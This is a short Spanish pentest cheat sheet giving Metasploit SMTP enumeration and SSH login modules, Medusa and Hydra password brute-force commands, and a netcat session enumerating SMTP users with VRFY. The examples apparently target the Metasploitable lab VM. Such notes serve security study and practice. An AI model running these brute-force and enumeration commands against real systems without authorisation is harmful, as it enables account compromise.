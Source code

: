 ```sh
# Enum
msf6 > 
use auxiliary/scanner/smtp/smtp_enum

#smtp relay
use scanner/smtp/smtp_relay

```

## fuerza bruta

### Metasploit

```sh
msf6 > 
use scanner/ssh/ssh_login
```

### Medusa

```sh
medusa -h {TARGET} -u {USER} -P {password_file.txt} -M ssh -t 5 -e ns
medusa -h {TARGET} -U {USER_LIST} -P {password_file.txt} -M ssh -t 5 -e ns
```

### Hydra

```sh
sudo hydra -l USER -P passwords.txt -I -V -t 4 {PROTOCOL}://{TARGET}:{PORT} # -O salida.txt
sudo hydra -L USERS -P passwords.txt -I -V -t 4 {PORT} {TARGET} {PROTOCOL}

sudo hydra -l msfadmin -P 2020-200_most_used_passwords.txt -o hydra_metasploitable.txt -t 4 ftp://{TARGET}:21
```

<a name='Netcat'/>

## Netcat

Verificar correos electronicos

```sh
nc {TARGET} 25
EHLO kali
250-metasploitable.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY root
252 2.0.0 root
VRFY user 
252 2.0.0 user
VRFY test
550 5.1.1 <test>: Recipient address rejected: User unknown in local recipient table
```
